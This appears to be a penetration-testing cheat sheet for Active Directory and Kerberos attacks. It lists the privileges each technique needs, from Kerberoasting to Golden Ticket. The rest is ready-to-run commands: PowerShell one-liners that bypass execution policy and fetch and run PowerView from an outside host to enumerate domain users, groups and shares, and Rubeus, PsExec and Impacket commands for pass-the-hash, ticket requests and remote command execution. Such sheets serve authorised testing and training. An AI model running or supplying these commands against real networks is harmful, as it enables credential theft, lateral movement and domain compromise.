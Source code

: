 
### Attack Privilege Requirements
- Kerbrute Enumeration
	- No domain access required 

- Pass the Ticket
	- Access as a user to the domain required

- Kerberoasting
	- Access as any user required

- AS-REP Roasting
	- Access as any user required

- Golden Ticket
	- Full domain compromise (domain admin) required 

- Silver Ticket
	- Service hash required 

- Skeleton Key
	- Full domain compromise (domain admin) required

### Enumeration

PowerView:
[USER]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-Domain"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -SPN"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties samaccountname,memberof"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties samaccountname,description"

[GROUP]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins' "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1');  Get-DomainGroup | where Name -like "*Admin*" | select SamAccountName "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain admins' "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"

[COMPUTER]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-NetComputer | select samaccountname, operatingsystem"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainComputer -Ping "

[SHARED INFO]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Find-DomainShare -Verbose"
cd \\fileshare.pentesting.local\FileShare

### Overass The Hash / Pass The Key

- in PowerShell

	- Rubeus
		- Commands
			- `Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt`
		- [Rubeus](https://github.com/GhostPack/Rubeus)

	- PsExec
		- Commands
			- `PsExec.exe -accepteula \\$REMOTE_HOSTNAME cmd`

- in Kali Linux

	- Impacket
		- Commands
			- with Hash
				- `getTGT.py $DOMAIN/$DOMAIN_USER -hashes [lm_hash]:$NTLM_HASH`
			- with aesKey
				- `getTGT.py $DOMAIN/$DOMAIN_USER -aesKey $AES_KEY`
			- with Password
				- `getTGT.py $DOMAIN/$DOMAIN_USER:$PASSWORD`
			- Set TGT for impacket use
				- `export KRB5CCNAME=<TGT_ccache_file>`
			- Execute remote commands
				- `psexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `smbexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `wmiexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
		- [Impacket](https://github.com/SecureAuthCorp/impacket/releases/)
